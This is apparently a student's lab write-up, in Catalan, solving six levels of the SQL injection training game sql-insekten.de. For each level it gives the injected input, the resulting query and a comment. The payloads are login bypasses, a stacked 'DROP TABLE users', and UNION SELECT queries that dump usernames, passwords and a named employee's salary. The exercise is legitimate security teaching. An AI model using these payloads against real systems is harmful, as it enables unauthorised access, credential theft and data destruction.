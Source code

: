 -------------

## Exercici 2

<h4>Obre el següent enllaç ([sql inseckten](https://www.sql-insekten.de/)) i realitza un mínim 
de 7 nivells fent servir tècniques d’injecció SQL.</h4>
<h4> a) Copia cada una de les sentències SQL resultant que has realitzat a cada nivell i 
comenta que has aconseguit.</h4>

NIVELL 1 - jane';-- //S'elimina la condició del password. Permet fer login només amb l'usuari

SELECT username
FROM users
WHERE username ='jane'; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

NIVELL 2 - ' ; DROP TABLE users; -- //S'elimina la condició del password i s'afegeix una
instrucció per fer un DROP de la taula users.

SELECT username
FROM users
WHERE username =''; DROP TABLE users; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

NIVELL 3 - ' OR 0<5; -- //S'elimina la condició del password i s'afegeix una condició que
sempre és true amb un OR. D'aquesta manera deixa fer login independentment de l'usuari i
la contrasenya.

SELECT username
FROM users
WHERE username ='' OR 0<5; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

NIVELL 4 - ' OR 0<5 ORDER BY username LIMIT 1; -- //Fent referència al nivell 4, els developers han arreglat el bug de poder
fer login quan al SELECT es retornen múltiples files. Per tant, limitem el retorn a una amb LIMIT 1.

SELECT username
FROM users
WHERE username ='' OR 0<5 ORDER BY username LIMIT 1; --' AND password ='d41d8cd98f00b204e9800998ecf8427e';

NIVELL 5 - ' UNION SELECT username, password FROM users; -- //S'uneix al SELECT original el SELECT
sense condicions de la taula users que retornarà tots els usuaris i contrasenyes.

SELECT product_id, brand, size, price
FROM shoes
WHERE brand='' UNION SELECT username, password FROM users; --';

NIVELL 6 - ' UNION SELECT s.salary AS staff_salary FROM staff s WHERE s.firstname = 'Greta Maria' --
//S'uneix al SELECT original el SELECT de la taula staff per saber el salary
d'una treballadora concreta

SELECT username
FROM users
WHERE username ='' UNION SELECT s.salary AS staff_salary FROM staff s WHERE s.firstname = 'Greta Maria' -- ' AND password ='d41d8cd98f00b204e9800998ecf8427e';

